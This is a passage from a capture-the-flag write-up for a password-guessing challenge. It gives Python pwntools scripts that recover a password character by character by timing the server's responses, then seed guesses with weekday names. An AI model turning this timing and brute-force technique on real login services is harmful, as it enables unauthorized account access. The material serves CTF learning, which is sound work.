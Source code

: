 ```python
        raise SuccessfulConnection(out.decode())
    after = time.time()
    r.recvuntil("Please enter your password: ")
    delta = after - before
    return delta < 0.5

def main(password: str = ""):
    log.setLevel("DEBUG")
    while True:
        for c in tqdm(alphabet):
            if check(password + c):
                password += c
                log.debug(f"password={password}")
                break
        else:
            raise NotFound(password)

if __name__ == '__main__':
    main()
```

Running this a couple of times, yielded a few prefixes before failing

- thurs
- sunda
- monda

### Wordlists

Due to the prefixes appearing to be days of the week, the script was adapted to try these first
```python
import string
from pwn import *
from tqdm import tqdm

alphabet = string.ascii_lowercase + string.digits + string.ascii_uppercase
host = "pwdguessr.chal.cybears.io"
port = 2323
r = remote(host, port)
user_line = r.recvline().decode()
user = user_line.split(" ")[-1][:-2]
r.recvuntil("Please enter your password: ")
days = ["monday", "tuesday", "wednesday", "thursday", "friday", "saturday", "sunday"]

class SuccessfulConnection(Exception):
    pass

class Timeout(Exception):
    pass

class NotFound(Exception):
    pass

def check(password: str):
    before = time.time()
    r.sendline(password)
    out = r.recv(5)
    if out != b"Sorry":
        if out == b"Conne":
            raise Timeout
        raise SuccessfulConnection(out.decode())
    after = time.time()
    r.recvuntil("Please enter your password: ")
    delta = after - before
```